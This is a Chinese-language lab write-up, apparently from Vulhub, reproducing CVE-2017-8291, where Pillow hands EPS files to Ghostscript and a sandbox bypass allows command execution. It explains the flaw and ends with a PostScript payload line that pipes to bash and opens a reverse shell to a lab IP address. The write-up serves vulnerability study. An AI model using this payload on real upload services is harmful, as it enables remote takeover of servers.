


Python PIL 远程命令执行漏洞 CVE-2017-8291¶
漏洞描述¶
Python 中处理图片的模块 PIL（Pillow），因为其内部调用了 GhostScript 而受到 GhostButt 漏洞（CVE-2017-8291）的影响，造成远程命令执行漏洞。
参考阅读：
漏洞原理¶
PIL 内部根据图片头（Magic Bytes）判断图片类型，如果发现是一个 eps 文件（头为 %!PS），则分发给 PIL/EpsImagePlugin.py 处理。
在这个模块中，PIL 调用了系统的 gs 命令，也就是 GhostScript 来处理图片文件：
command = ["gs",
"-q", # quiet mode
"-g%dx%d" % size, # set output geometry (pixels)
"-r%fx%f" % res, # set input DPI (dots per inch)
"-dBATCH", # exit after processing
"-dNOPAUSE", # don't pause between pages,
"-dSAFER", # safe mode
"-sDEVICE=ppmraw", # ppm driver
"-sOutputFile=%s" % outfile, # output file
"-c", "%d %d translate" % (-bbox[0], -bbox[1]),
# adjust for image origin
"-f", infile, # input file
]
# 省略判断是GhostScript是否安装的代码
try:
with open(os.devnull, 'w+b') as devnull:
subprocess.check_call(command, stdin=devnull, stdout=devnull)
im = Image.open(outfile)
虽然设置了 -dSAFER，也就是安全模式，但因为 GhostScript 的一个沙盒绕过漏洞（GhostButt CVE-2017-8291），导致这个安全模式被绕过，可以执行任意命令。
另外，截至目前，GhostScript 官方最新版 9.21 仍然受到这个漏洞影响，所以可以说：只要操作系统上安装了 GhostScript，我们的 PIL 就存在命令执行漏洞。
环境搭建¶
Vulhub 运行环境：
docker-compose up -d
运行后，访问 http://your-ip:8000/ 即可看到一个上传页面。
漏洞复现¶
正常功能是我们上传一个 PNG 文件，后端调用 PIL 加载图片，输出长宽。但我们可以将可执行命令 EPS 文件后缀改成 PNG 进行上传，因为后端是根据文件头来判断图片类型，所以无视后缀检查。
比如 poc.png，进行上传，即可执行 touch /tmp/awesome_poc。
{kind=link}

将 touch /tmp/awesome_poc 命令改为反弹 shell 命令：
currentdevice null false mark /OutputFile (%pipe%bash -c "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1")
成功接收反弹 shell：
